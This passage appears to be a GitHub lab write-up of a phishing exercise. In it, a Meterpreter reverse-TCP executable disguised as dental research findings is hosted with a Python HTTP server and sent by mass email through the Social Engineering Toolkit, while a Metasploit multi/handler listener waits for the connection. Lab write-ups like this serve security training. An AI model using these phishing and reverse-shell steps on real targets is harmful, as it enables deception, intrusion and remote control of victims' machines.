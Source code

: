   ```Python3 -m http.server 8000```

- The payload is now accessible through the attacker's VMs internal IP address on the NAT network.

<b>*Listener Setup on Attacker VM:*</b>

- Open msfvonsole on the Kali Linux VM and configure a listener for a reverse TCP connection

  ```Use exploit/multi/handler```

  ```Set payload windows/meterpreter/reverse_tcp```

  ```set lhost 192.168.100.4```

  ```set lport 5555```

  ```run```

- This configuration listens for the reverse TCP connection from the payload executed on the target machine.

<b>*Payload Delivery via SET:*</b>

- Use the Social Engineering ToolKit (SET) within Kali Linux VM to conduct a Mass Email Attack, sending a phishing email containing a link to the hosted payload ("AdvancedDentalResearchFindings.exe").
- The email being crafted aligns with the pretext scenario, making it appear to be legitimate communication related to dental research.

<b>*Execution on Target VM:*</b>

- The user on the Windows VM receives the phishing email.
- Upon clicking the link and executing the downladed file, the Windows VM initiates a reverse TCP connection to the Kali Linux VM.

## Step-by-Step Deployment

<b>*Payload creation with msfvenom*</b>

- Create the reverse TCP payload using msfvenom

![image](https://github.com/user-attachments/assets/db28f88c-9e8a-4091-8896-8b8c81cb053f)

<b>*Use Python to create HTTP server to host the payload*</b>

  ```python3 -m http.server```

![image](https://github.com/user-attachments/assets/b39598de-6982-4cdd-9dc7-d499bc3fdf2b)

<b>*Setup a listener using msfconsole*</b>

- Run msfconsole

![image](https://github.com/user-attachments/assets/32f8f230-be65-440f-be3b-3b1e02909c5e)

- Use exploit/multi/handler

![image](https://github.com/user-attachments/assets/161ad51c-7eba-4c47-b3be-11c383092789)

- Use show options command to display options required

![image](https://github.com/user-attachments/assets/e05025d2-2dd2-4b5f-9a08-821c345df4a3)

- Set payload windows/meterpreter/reverse_tcp

  ```